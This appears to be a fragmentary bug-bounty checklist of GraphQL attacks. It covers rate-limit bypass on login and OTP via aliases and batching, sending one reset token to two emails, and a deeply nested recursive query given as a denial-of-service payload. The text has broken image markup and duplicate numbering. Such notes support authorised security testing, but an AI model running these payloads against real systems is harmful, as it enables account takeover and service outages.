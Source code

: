 1. Bypassing rate limiting on Login, OTP using [Aliases](https://portswigger.net/web-security/graphql#bypassing-rate-limiting-using-aliases)/[GraphQL Batching attack](https://lab.wallarm.com/graphql-batching-attack/)
2. Send same reset password token to 2 emails (similar to race condition) using GraphQL Batching attack
3. If a query takes long time to complete, it used to overwhelm the server by using GraphQL Batching attack

## Denial of Service :: Deep Recursion Query Attack

5. If The application offers two types, which reference eachother (Type1 has Type2, and Type2 has Type1), it recursive query to be executed successfully.

[Click here to show/hide image](#)

![Hidden Image]([your-image-url.jpg](https://github.com/0xGLSS/Bug-Bounty-Methodology/assets/85647797/cc9686ca-662c-4327-95c6-e2e47ceca255))
'

    query {
      pastes {
        owner {
          pastes {
            owner {
              pastes {
                owner {
                  pastes {
                    owner {
                      pastes {
                        owner {
                          pastes {
                            owner {
                              name
                            }
                          }
                        }
                      }
                    }
                  }
                }
              }
            }
          }
        }
      }
    }
> [!NOTE]
> if a depth check is implemented it should prevent malicious queries from going through.

    



5. CSRF over Graphql
6. 
